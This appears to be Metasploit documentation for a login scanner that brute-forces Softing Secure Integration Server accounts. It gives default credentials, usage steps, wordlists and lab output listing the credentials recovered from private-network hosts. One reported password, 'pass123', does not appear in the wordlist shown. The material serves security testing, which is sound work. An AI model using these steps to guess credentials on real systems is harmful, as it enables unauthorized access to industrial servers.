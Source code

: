 ## Description

This module allows you to authenticate to Softing Secure Integration Server.

By default:
* Credentials are `admin:admin`.
* HTTP is TCP/8099 and HTTPS is TCP/443. Either one can be used, but the module defaults to TCP/8099.

There does not seem to be a limit to the number of times login attempts can be made.

## Vulnerable Application

This module was tested against version 1.22, installed on Windows Server 2019 Standard x64.

*1.22 Download*

https://industrial.softing.com/products/opc-opc-ua-software-platform/integration-platform/secure-integration-server.html

## Verification Steps

1. Start `msfconsole`
2. Do: `use auxiliary/scanner/http/softing_sis_login`
3. Do: `set RHOST <target_ip>`
4. Do: Optional: `set SSL true` if necessary
5. Do: Optional: `set RPORT 443` if SSL is set
6. Do: `set USERNAME <username>` if necessary. Default is `admin`
7. Do: `set PASSWORD <password>` if necessary. Default is `admin`
8. Do: `run`

## Scenarios
### Default

In this scenario, the default options were used.

```
msf6 > use auxiliary/scanner/http/softing_sis_login 
msf6 auxiliary(scanner/http/softing_sis_login) > set RHOSTS 192.168.50.119
RHOSTS => 192.168.50.119
msf6 auxiliary(scanner/http/softing_sis_login) > run

[+] 192.168.50.119:8099 - Success: 'admin:admin'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/softing_sis_login) > 
```

`creds` output:

```
msf6 auxiliary(scanner/http/softing_sis_login) > creds
Credentials
===========

host            origin          service          public  private  realm  private_type  JtR Format
----            ------          -------          ------  -------  -----  ------------  ----------
192.168.50.119  192.168.50.119  8099/tcp (http)  admin   admin           Password      

msf6 auxiliary(scanner/http/softing_sis_login) > 
```

### Different admin password, SSL in use

In this scenario, the default password for the `admin` user has been changed, and SSL was used.

```
msf6 > use auxiliary/scanner/http/softing_sis_login 
msf6 auxiliary(scanner/http/softing_sis_login) > set RHOSTS 192.168.50.119
RHOSTS => 192.168.50.119
msf6 auxiliary(scanner/http/softing_sis_login) > set PASSWORD admin123
PASSWORD => admin123
msf6 auxiliary(scanner/http/softing_sis_login) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf6 auxiliary(scanner/http/softing_sis_login) > set RPORT 443
RPORT => 443
msf6 auxiliary(scanner/http/softing_sis_login) > run

[+] 192.168.50.119:443 - Success: 'admin:admin123'
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/softing_sis_login) > 
```

`creds` output:

```
msf6 auxiliary(scanner/http/softing_sis_login) > creds
Credentials
===========

host            origin          service          public  private  realm  private_type  JtR Format
----            ------          -------          ------  -------  -----  ------------  ----------
192.168.50.119  192.168.50.119  8099/tcp (http)  admin   admin           Password      
192.168.50.119  192.168.50.119  443/tcp (https)  admin   admin123        Password      

msf6 auxiliary(scanner/http/softing_sis_login) > 
```

### Several targets, using different usernames and passwords

In this scenario, we have several targets that have different usernames and passwords for each.
All the targets have the Softing Secure Integration Server login page enabled at TCP/8099.

Contents of `usernames.txt`:
```
admin
admin1
user
lowpriv
guest
```

Contents of `passwords.txt`:
```
admin
admin123
BadPass
GoodPass?
P@ssw0rd
user
pass
password
lowpriv
```

Contents of `targets.txt`:
```
192.168.50.71
192.168.50.119
192.168.50.206
```

Module output:
```
msf6 > use auxiliary/scanner/http/softing_sis_login
msf6 auxiliary(scanner/http/softing_sis_login) > set RHOSTS file:/home/ubuntu/Documents/targets.txt
RHOSTS => file:/home/ubuntu/Documents/targets.txt
msf6 auxiliary(scanner/http/softing_sis_login) > set USER_FILE ~/Documents/usernames.txt
USER_FILE => ~/Documents/usernames.txt
msf6 auxiliary(scanner/http/softing_sis_login) > set PASS_FILE ~/Documents/passwords.txt
PASS_FILE => ~/Documents/passwords.txt
msf6 auxiliary(scanner/http/softing_sis_login) > set VERBOSE false
VERBOSE => false
msf6 auxiliary(scanner/http/softing_sis_login) > run

[+] 192.168.50.71:8099 - Success: 'admin:P@ssw0rd'
[*] Scanned 1 of 3 hosts (33% complete)
[+] 192.168.50.119:8099 - Success: 'admin:admin'
[*] Scanned 2 of 3 hosts (66% complete)
[+] 192.168.50.206:8099 - Success: 'admin:pass123'
[+] 192.168.50.206:8099 - Success: 'admin1:admin123'
[*] Scanned 3 of 3 hosts (100% complete)
[*] Auxiliary module execution completed
msf6 auxiliary(scanner/http/softing_sis_login) > 
```

Note that `VERBOSE` was set to `false` in this scenario to reduce amount of output on screen.
By default, `VERBOSE` is set to true, which also outputs failed login attempts.

`creds` output:

```
msf6 auxiliary(scanner/http/softing_sis_login) > creds
Credentials
===========

host            origin          service          public  private   realm  private_type  JtR Format
----            ------          -------          ------  -------   -----  ------------  ----------
192.168.50.71   192.168.50.71   8099/tcp (http)  admin   P@ssw0rd         Password      
192.168.50.119  192.168.50.119  8099/tcp (http)  admin   admin            Password      
192.168.50.206  192.168.50.206  8099/tcp (http)  admin   pass123          Password      
192.168.50.206  192.168.50.206  8099/tcp (http)  admin1  admin123         Password      

msf6 auxiliary(scanner/http/softing_sis_login) > 
```
